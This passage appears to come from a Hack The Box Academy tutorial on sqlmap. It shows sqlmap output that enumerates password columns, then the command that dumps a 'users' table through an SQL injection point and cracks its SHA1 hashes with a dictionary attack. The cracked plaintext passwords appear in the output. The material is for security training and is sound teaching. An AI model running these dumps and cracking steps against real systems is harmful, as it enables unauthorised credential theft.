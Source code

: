 ```shell-session
[1 column]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| password | varchar(512) |
+----------+--------------+

Database: mysql
Table: user
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(41) |
+----------+----------+

Database: mysql
Table: servers
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(64) |
+----------+----------+
```

***

### Password Enumeration and Cracking

Once we identify a table containing passwords (e.g. `master.users`), we can retrieve that table with the `-T` option, as previously shown:

Advanced Database Enumeration

```shell-session
AIceBear@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users

...SNIP...
[14:31:41] [INFO] fetching columns for table 'users' in database 'master'
[14:31:41] [INFO] fetching entries for table 'users' in database 'master'
[14:31:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[14:31:41] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:31:41] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:31:41] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:31:41] [INFO] starting 8 processes 
[14:31:41] [INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e'                                                                                                         
[14:31:41] [INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9'                                                                                                         
```